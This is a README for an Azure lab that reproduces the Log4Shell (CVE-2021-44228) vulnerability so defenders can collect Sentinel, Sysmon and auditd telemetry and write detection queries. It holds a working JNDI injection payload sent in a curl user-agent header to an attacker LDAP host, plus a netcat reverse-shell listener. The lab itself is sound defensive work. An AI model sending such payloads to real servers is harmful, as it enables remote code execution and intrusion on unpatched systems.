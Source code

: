 # Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Research Notes

https://github.com/Cyb3rWard0g/log4jshell-lab

## Data Samples

https://aka.ms/Log4ShellDataSamples
## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux) (Optional)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
        * [OMS Auditd Plugin](https://github.com/microsoft/OMS-Auditd-Plugin)(Optional)
        * [Tomcat v8.5.3](https://tomcat.apache.org/)
        * Java Libraries:
            * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
            * log4j-core ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.16.0))
            * log4j-api ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.16.0))
    * `UBUNTU6`
        * [Rogue JNDI](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker/rogue-jndi)

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and make sure the `Tomcat` service is running:

```bash
service tomcat status
```
Depending on what you installed to generate events (`Sysmon` or `OMS Auditd Plugin`):

**Sysmon**

You can check if Sysmon is running.

```
service sysmon status
```

**OMS Auditd**

You can check that the AUOMS service is running and the AUOMS config is active

```
service auoms status

cat /etc/audisp/plugins.d/auoms.conf
```

### UBUNTU6
SSH to `UBUNTU6` box to make sure the `Rogue JNDI` docker container is running:

```bash
docker ps

docker logs --follow rogue-jndi
```

## Trigger CVE-2021-44228 (Example)

* In this scenario, we simulate an adversary that is already on the `VICTIM` server (running the vulnerable application).
    * Another scenario would be an adversary interacting with the `VICTIM` server from an endpoint outside of the organization's network.
* The attacker uses the log4j [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228) RCE vulnerability to get a reverse shell via netcat.

### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable applications were compiled during the deployment of the victim Azure VM.

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=reference}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```

## Query Microsoft Sentinel

### Sysmon Logs

```
Syslog 
| where ProcessName == 'sysmon'
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

### OMS Auditd

```
let execve=(){
  Syslog
  | where SyslogMessage has "AUOMS_EXECVE"
  | parse SyslogMessage with "type=" EventType " audit(" * "): " EventData
  | where EventType =~ "AUOMS_EXECVE"
  | project TimeGenerated, EventType, Computer, EventData
  | extend EventData = trim_end('containerid=',EventData)
  | parse kind=regex EventData with * "success=" success " exit=" * "ppid=" ppid "pid=" pid
  "audit_user=" audit_user "auid=" * "user=" user " uid=" uid " group=" * "comm=\"" comm "\" exe=\"" exe
  "\"" * "cwd=\"" cwd "\" name=\"" name "\" (inode|nametype)=" * "(proctitle|cmdline)=" cmdline
  | extend cmdline = trim_end('redactors=.*',cmdline)
};
execve
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell-pcap.png)


## References
* https://github.com/Cyb3rWard0g/log4jshell-lab